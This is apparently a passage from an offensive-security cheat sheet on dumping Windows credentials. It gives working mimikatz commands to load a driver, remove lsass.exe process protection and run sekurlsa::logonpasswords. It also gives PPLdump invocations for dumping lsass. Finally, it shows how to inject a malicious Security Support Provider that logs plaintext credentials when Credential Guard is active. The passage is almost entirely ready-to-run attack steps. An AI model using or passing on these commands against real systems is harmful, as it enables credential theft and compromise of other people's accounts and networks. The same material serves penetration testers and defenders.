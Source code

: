 :warning: To take effect, conditions are required :
- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * Adding requires lock
  * Removing requires signout
- Win10:
  * Adding requires signout
  * Removing requires signout
- Win2016:
  * Adding requires lock
  * Removing requires reboot

## LSA Protection Workaround

- LSA as a Protected Process (RunAsPPL)
  ```powershell
  # Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

  # Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
  # Now lets import the mimidriver.sys to the system
  mimikatz # !+

  # Now lets remove the protection flags from lsass.exe process
  mimikatz # !processprotect /process:lsass.exe /remove

  # Finally run the logonpasswords function to dump lsass
  mimikatz # privilege::debug    
  mimikatz # token::elevate
  mimikatz # sekurlsa::logonpasswords
  
  # Now lets re-add the protection flags to the lsass.exe process
  mimikatz # !processprotect /process:lsass.exe

  # Unload the service created
  mimikatz # !-


  # https://github.com/itm4n/PPLdump
  PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>
  PPLdump.exe lsass.exe lsass.dmp
  PPLdump.exe -v 720 out.dmp
  ```

- LSA is running as virtualized process (LSAISO) by **Credential Guard**
  ```powershell
  # Check if a process called lsaiso.exe exists on the running processes
  tasklist |findstr lsaiso

  # Lets inject our own malicious Security Support Provider into memory
  # require mimilib.dll in the same folder
  mimikatz # misc::memssp

  # Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
  ```
